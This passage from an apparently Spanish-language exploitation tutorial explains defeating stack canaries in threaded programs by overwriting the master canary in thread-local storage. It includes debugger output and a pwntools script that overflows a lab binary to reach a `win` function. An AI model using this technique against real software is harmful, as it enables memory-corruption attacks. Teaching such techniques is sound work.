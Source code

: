 Nota que las direcciones de la pila no pertenecen a la pila real:
```bash
gef> vmmap stack
[ Legend:  Code | Heap | Stack | Writable | ReadOnly | None | RWX ]
Start              End                Size               Offset             Perm Path
0x00007ffff7580000 0x00007ffff7d83000 0x0000000000803000 0x0000000000000000 rw- <tls-th1><stack-th2>  <-  $rbx, $rsp, $rbp, $rsi, $rdi, $r12
0x00007ffffffde000 0x00007ffffffff000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $r9, $r15
```
La pila del hilo se coloca por encima del Almacenamiento Local de Hilos (TLS), donde se almacena el canario maestro:
```bash
gef> tls
$tls = 0x7ffff7d7f640
...
---------------------------------------------------------------------------- TLS ----------------------------------------------------------------------------
0x7ffff7d7f640|+0x0000|+000: 0x00007ffff7d7f640  ->  [loop detected]  <-  $rbx, $r12
0x7ffff7d7f648|+0x0008|+001: 0x00000000004052b0  ->  0x0000000000000001
0x7ffff7d7f650|+0x0010|+002: 0x00007ffff7d7f640  ->  [loop detected]
0x7ffff7d7f658|+0x0018|+003: 0x0000000000000001
0x7ffff7d7f660|+0x0020|+004: 0x0000000000000000
0x7ffff7d7f668|+0x0028|+005: 0x493fdc653a156800  <-  canary
0x7ffff7d7f670|+0x0030|+006: 0xb79b79966e9916c4  <-  PTR_MANGLE cookie
0x7ffff7d7f678|+0x0038|+007: 0x0000000000000000
...
```
> [!NOTE]
> Algunas de las funciones de GDB mencionadas anteriormente están definidas en una extensión llamada [bata24/gef](https://github.com/bata24/gef), que tiene más características que el habitual [hugsy/gef](https://github.com/hugsy/gef).

Como resultado, un gran Buffer Overflow puede permitir modificar tanto el stack canary como el master canary en el TLS. Este es el offset:
```bash
gef> p/x 0x7ffff7d7f668 - $rdi
$1 = 0x848
```
Esta es una explotación corta para llamar a `win`:
```python
from pwn import *

context.binary = 'thread_canary'

payload  = b'A' * 0x28                    # buffer overflow offset
payload += b'BBBBBBBB'                    # overwritting stack canary
payload += b'A' * 8                       # saved $rbp
payload += p64(context.binary.sym.win)    # return address
payload += b'A' * (0x848 - len(payload))  # padding
payload += b'BBBBBBBB'                    # overwritting master canary

io = context.binary.process()
io.sendline(payload)
io.interactive()
```
## Otros ejemplos y referencias
